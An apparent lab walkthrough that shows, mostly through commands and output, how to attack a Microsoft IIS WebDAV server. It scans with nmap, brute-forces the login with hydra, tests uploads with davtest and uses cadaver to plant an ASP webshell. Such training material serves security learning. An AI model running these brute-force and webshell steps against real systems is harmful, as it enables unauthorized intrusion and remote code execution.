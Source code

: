 # Exploiting Microsoft IIS WebDAV

## Tools used:

[Davtest](https://code.google.com/archive/p/davtest/):

Davtest is a WebDAV scanner that sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files. The tool also tried to execute uploaded files and gives us an output of successfully executed files.

[cadaver](https://github.com/grimneko/cadaver):

Cadaver is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.

***

First of all, let's perform a basic Nmap scan:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# nmap -sV -sC -p80 10.5.27.26
Starting Nmap 7.91 ( https://nmap.org ) at 2023-12-30 15:04 IST
Nmap scan report for 10.5.27.26
Host is up (0.0019s latency).

PORT   STATE SERVICE VERSION
<strong>80/tcp open  http    Microsoft IIS httpd 10.0
</strong>| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND LOCK UNLOCK PROPPATCH MKCOL PUT DELETE MOVE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to /Default.aspx
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, LOCK, UNLOCK
|   Server Date: Sat, 30 Dec 2023 09:35:07 GMT
|_  Server Type: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.52 seconds
</code></pre>

This doesn't give us proper information for webDav, let try to run the enum script:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# nmap -sV -sC -p80 10.5.27.26 --script=http-enum
Starting Nmap 7.91 ( https://nmap.org ) at 2023-12-30 15:08 IST
Nmap scan report for 10.5.27.26
Host is up (0.0019s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-enum: 
<strong>|_  /webdav/: Potentially interesting folder (401 Unauthorized)
</strong>|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
</code></pre>

We found a wedav directory which gives us 401, which means we need authentication to access the directory. We can brute force the login credentials using hydra:

```sh
root@attackdefense:~# hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.5.27.26 http-get /webdav/
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-30 15:14:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 400 login tries (l:8/p:50), ~25 tries per task
[DATA] attacking http-get://10.5.27.26:80/webdav/
1 of 1 target completed, 0 valid password found
```

This was just an example that how to perform brute force in this case.

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and this is how it looks.

So now we know that Webdav allows us to download or upload the files within this directory. So we can use a tool for this that already comes with kali Linux:

```sh
root@attackdefense:~# davtest -url http://10.5.27.26/webdav
********************************************************
 Testing DAV connection
OPEN		FAIL:	http://10.5.27.26/webdav	Unauthorized. Basic realm="10.5.27.26"
```

This was the basic usage of davtest. to connect to webdav, we need to give it a valid credentials like this:

```sh
root@attackdefense:~# davtest -url http://10.5.27.26/webdav -auth bob:password_123321
********************************************************
 Testing DAV connection
OPEN		SUCCEED:		http://10.5.27.26/webdav
********************************************************
NOTE	Random string for this session: zQDBIXMfsh
********************************************************
 Creating directory
MKCOL		SUCCEED:		Created http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh
********************************************************
 Sending test files
PUT	txt	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.txt
PUT	jsp	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.jsp
PUT	asp	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.asp
PUT	cgi	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.cgi
PUT	php	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.php
PUT	html	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.html
PUT	jhtml	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.jhtml
PUT	pl	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.pl
PUT	shtml	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.shtml
PUT	aspx	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.aspx
PUT	cfm	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.cfm
********************************************************
 Checking for test file execution
EXEC	txt	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.txt
EXEC	jsp	FAIL
EXEC	asp	SUCCEED:	http://10.5.27.26/webdav/DavTestDir_zQDBIXMfsh/davtest_zQDBIXMfsh.asp
.
.
```

The connection is successful.

To upload, download or modify files, we can now use the cadaver utility:

```sh
root@attackdefense:~# cadaver http://10.5.27.26/webdav
Authentication required for 10.5.27.26 on server `10.5.27.26':
Username: bob
Password: 
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp 
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.
```

Here we upload an ASP webshell.

> Webshells comes pre-packages in kali linux at the following path
>
> ```sh
> root@attackdefense:~# ls /usr/share/webshells/
> asp  aspx  cfm	jsp  laudanum  perl  php  seclists
> ```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Our shell is working correctly.

